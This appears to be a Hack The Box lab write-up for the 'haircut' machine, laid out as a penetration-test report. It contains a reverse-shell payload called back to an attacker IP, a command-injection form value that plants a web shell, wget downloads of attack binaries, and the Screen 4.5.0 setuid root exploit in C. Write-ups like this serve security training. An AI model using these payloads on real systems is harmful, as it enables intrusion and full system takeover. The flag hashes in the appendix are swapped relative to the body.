




# Hack The Box: haircut Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the haircut machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the haircut machine.

The specific IP address was:

- 10.10.10.24

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the haircut machine.

\newpage

### System IP: 10.10.10.24

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.24      | **TCP:** \ **UDP:**

\newpage

**Nmap Scan Results:**

Service Scan:

```bash
nmap -vvv -Pn -p $all_ports -sC -sV -oN /HTB-boxes/haircut/recon/nmap_all_tcp.md 10.10.10.24


sudo nmap -vvv -Pn -sU -p $all_ports -sC -sV -oN /HTB-boxes/haircut/recon/nmap_all_udp.md 10.10.10.24
```

Notable Output:

```txt
80/tcp open  http    syn-ack nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vulnerability Scan:

```bash
nmap -vvv -Pn -p $all_ports --script vuln -oN /HTB-boxes/haircut/recon/nmap_all_vuln.md 10.10.10.24
```

Notable Output:

```txt
80/tcp open  http    syn-ack
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  BID:49303
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://seclists.org/fulldisclosure/2011/Aug/175
|       https://www.tenable.com/plugins/nessus/55976
|_      https://www.securityfocus.com/bid/49303
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|_  /test.html: Test page
```


\newpage

#### Initial Access

**Vulnerability Exploited:** SSRF

**Vulnerability Explanation:**

An attacker can make a server-side request forgery via the form found at *http://10.10.10.24:80/uploads/* . An attacker could remotely execute code by manipulating the server to visit  a malicious url.

**Vulnerability Fix:**

Sanatize the input of the php form found at *http://10.10.10.24:80/uploads/*

**Severity:** Critical

\newpage

**Exploit Code:**

reference: *https://resources.infosecinstitute.com/topic/the-ssrf-vulnerability/*

Generate a reverse shell payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.3 lport=4321 -f raw -o shell.php
```

Start a simple http server:

```python
python3 -m http.server 80
```

Start a netcat listener:

```
nc -lvnp 4321 
```

Edit form request in burpsuite:





```txt
formurl=http://10.10.14.3/shell.php -o uploads/shell.php&submit=Go
```

we get a request on the attacker web server:



visit the url to execute the reverse shell:
```txt
http://10.10.10.24/uploads/shell.php
```


in metasploit console:
```txt
use exploit/multi/handler 
set payload php/meterpreter/reverse_tcp
set lhost 10.10.14.3
set lport 4321
run
```


we get a shell:




\newpage

**Proof Screenshot Here:**



**Local.txt Contents:**

```txt
6316ebf1106bb844ca5039e5c44acf96
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Setuid Screen v4.5.0

**Vulnerability Explanation:**

An attacker can leverage setuid permission of Screen v4.5.0 to bypass authentication and escalate privileges on a target machine.

**Vulnerability Fix:**

Update Screen to the latest version, or at least remove setuid permissions for Screen from other users.

**Severity:** Critical

\newpage

**Exploit Code:**

reference: *https://www.exploit-db.com/exploits/41154*

(modified) compile exploit code:

```bash

cat << EOF > libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("rootshell", 0, 0);
    chmod("rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o libhax.so libhax.c

cat << EOF > rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o rootshell rootshell.c

```


spin up an http server on the attacker machine:

```python
python3 -m http.server 8000
```

on the target machine, download the code and copy to the */tmp* directory:

```bash
wget http://10.10.14.3:8000/libhax.so
wget http://10.10.14.3:8000/rootshell
```

run the following commands on the target machine:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0alibhax.so"
screen -ls 
/tmp/rootshell
```

we get a root shell.

\newpage

**Proof.txt Contents**

```txt
4cfa26d84b2220826a07f0697dc72151
```

\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the haircut machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the Box should not have to remove any user accounts or services from the system.

\newpage

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.24   |  4cfa26d84b2220826a07f0697dc72151 | 6316ebf1106bb844ca5039e5c44acf96

\newpage

## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false maria:x:1000:1000:maria,,,:/home/maria:/bin/bash mysql:x:110:117:MySQL Server,,,:/nonexistent:/bin/false lightdm:x:111:118:Light Display Manager:/var/lib/lightdm:/bin/false pulse:x:112:121:PulseAudio daemon,,,:/var/run/pulse:/bin/false sshd:x:113:65534::/var/run/sshd:/usr/sbin/nologin
```